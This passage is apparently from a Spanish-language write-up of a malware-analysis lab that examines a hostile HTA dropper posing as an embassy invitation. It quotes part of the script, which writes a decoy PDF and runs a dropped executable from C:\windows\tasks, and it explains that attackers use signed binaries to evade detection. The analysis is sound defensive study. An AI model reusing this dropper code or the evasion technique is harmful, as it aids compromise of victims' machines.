 ```html
        content4 += String['fromCharCode'](pdf[i]);
      }
      var f = new ActiveXObject('scripting.filesystemobject');
      var pathpdf = f.GetFolder(".") + '\\Invitation.pdf';
      var a7 = f['opentextfile'](pathpdf, 0x2, 0x1, 0x0);
      a7['write']('%P');
      a7['close']();
      var a8 = f['opentextfile'](pathpdf, 0x8, 0x1, -0x1);
      a8['write'](content4);
      a8['close']();
      window['close']();
    </script>
    <script language="vbscript">
      CreateObject("WScript.Shell").Exec "C:\\windows\\tasks\\msoev.exe"
    </script>
    </script>
  </head>
  <body></body>
</html>
```

Como se menciona la pregunta, el script crea varios archivos en la máquina víctima, estos archivos son:

- `C:\windows\tasks\mso.dll`
- `C:\windows\tasks\msoev.exe`
- `C:\windows\tasks\AppVIsvSubsystems64.dll`
- `.\Invitation.pdf`

Para determinar cual es el archivo firmado por Microsoft, hay que tener el cuenta la siguiente parte del script:

```html
<script language="vbscript">
  CreateObject("WScript.Shell").Exec "C:\\windows\\tasks\\msoev.exe"
</script>
```

En cadenas de ataques, es común que se dropee y ejecute binarios legítimos para evadir los sistemas de detección.

Dicho esto, de los archivos generados por el HTA, el binario `msoev` es el único que se ejecuta directamente.

---

## **3. *The threat actor was acting as an embassy of a country. Which country was that?***

Uno de los artefactos del lab y que también es uno de los archivos creados por `Invitation_Farewell_DE_EMB.hta` es un archivo PDF.

Este PDF se llama `Invitation.pdf`.
